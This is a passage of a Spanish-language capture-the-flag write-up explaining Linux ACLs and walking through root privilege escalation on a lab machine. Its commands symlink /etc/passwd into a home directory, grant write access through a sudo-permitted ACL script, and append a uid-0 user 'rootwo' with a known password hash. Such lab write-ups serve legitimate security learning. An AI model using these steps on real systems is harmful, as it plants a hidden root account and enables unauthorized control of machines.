 El script intenta modificar una acl de un archivo a tu elección en el directorio `/home/mtz`.

---

**¿Qué es una ACL en linux?**

*Una ACL o lista de control de acceso es una manera de dar permisos especificos a usuarios o grupos de una forma más individualizada.*

*Por eso es tan peligroso dejar en manos del usuario el input de un comando com setfacl, poruque puede darse permisos de lectura o escritura a archivos a los que no debería tener acceso.*

*Podeis aprender más sobre acls y sus usos [aquí](https://www.geeksforgeeks.org/linux-setfacl-command-with-example/).*

---

Una forma de escalar privilegios podría ser dar permisos de escritura a un archivo como el `/etc/passwd` y añadir un usuario con una contraseña que sepamos con `uid=0` y `gid=0`, pero solo podemos editar archivos dentro de `/home/mtz`.

Sin embargo esto puede ser sorteado utilizando un link simbolico en el directorio `/home/mtz` que apunte al archivo que deseemos modificar, en este caso `/etc/passwd`.

```
ln -s /etc/passwd
```

Ahora con el script le vamos a dar todos los permisos al usuario mtz al archivo `/etc/passwd` mediante el link simbolico `/home/mtz/passwd`.

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

Ya deberíamos poder editar el archivo `/etc/passwd`, por lo que primero vamos a crear una hash de una contraseña en `md5`.

```
openssl passwd password123
$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1
```

Y luego incluimos una linea en el `/etc/passwd` de un usuario `rootwo` con las mismas características que `root` con la contraseña que acabamos de crear.

```
echo 'rootwo:$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Una vez hecho esto deberíamos poder autenticarnos como root usando `rootwo` y la contraseña que le hemos definido.

```
su rootwo
Password: password123
```

La autenticación es exitosa, ya somos root. Por lo que ya podemos leer la flag de `root`.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.